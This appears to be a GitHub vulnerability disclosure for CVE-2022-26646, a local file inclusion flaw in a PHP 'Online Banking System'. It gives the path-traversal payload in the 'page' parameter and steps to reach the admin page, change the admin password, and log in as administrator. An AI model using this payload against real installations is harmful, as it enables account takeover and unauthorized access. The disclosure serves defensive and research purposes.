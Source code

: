 # Tittle: Online Banking System LFI.

## Author: (Erik451)
## Vendor Homepage: [https://www.sourcecodester.com/](https://www.sourcecodester.com/)
## Software Link: [https://www.sourcecodester.com/php/14868/banking-system-using-php-free-source-code.html](https://www.sourcecodester.com/php/14868/banking-system-using-php-free-source-code.html)
## Version: OBS 1.0
## CVE: CVE-2022-26646
-   Description: The parameter "page" includes files. A user can read internal php files of the web. LFI to Privilege Escalation
-   Payload used: `http://web.com/banking/client/?page=<any_phpfile>`

### **Steps to reproduce:**

-  1- Go to [http://localhost/banking/client/?page=../admin/user](http://localhost/banking/client/?page=../admin/user)

![adminpage](https://user-images.githubusercontent.com/47476901/160647789-a20d2830-b673-4d51-b605-80de520cf25f.png)

-   2- Change the admin password

![changepass](https://user-images.githubusercontent.com/47476901/160647853-084108de-0592-4c79-8d3a-f7a1d3692466.png)

- 3- Login as administrator

![login](https://user-images.githubusercontent.com/47476901/160647880-c00a310c-ca03-4fef-839f-0131122ee50d.png)


- 4- Admin panel
![adminpanel](https://user-images.githubusercontent.com/47476901/160647820-d55df39c-9287-4bd5-8214-e10558e8aa09.png)


#### Other LFI:
Reading info.php
![info](https://user-images.githubusercontent.com/47476901/160647867-b7593351-938a-492c-a447-17547aec59f7.png)
